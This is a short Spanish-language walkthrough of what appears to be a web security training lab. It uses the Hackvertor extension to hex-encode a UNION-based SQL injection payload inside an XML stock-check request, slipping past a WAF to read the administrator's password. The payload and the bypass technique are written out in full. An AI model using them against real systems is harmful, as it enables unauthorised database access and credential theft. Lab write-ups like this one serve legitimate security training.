

En este laboratorio usaremos la extencion de `Hackvertor` para bypassear el waf


Instalamos la extensión.



Luego encodeamos el parámetro vulnerable.


Luego de en codear debemos de tener de la siguiente manera:

```c
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>
		<@hex_entities>
		3  union select password from users where username='administrator'-- - 
		<@/hex_entities>
		</productId>
	<storeId>1</storeId>
</stockCheck>

```

Ahora enviamos y obtendremos la contraseña del usuario administrator:


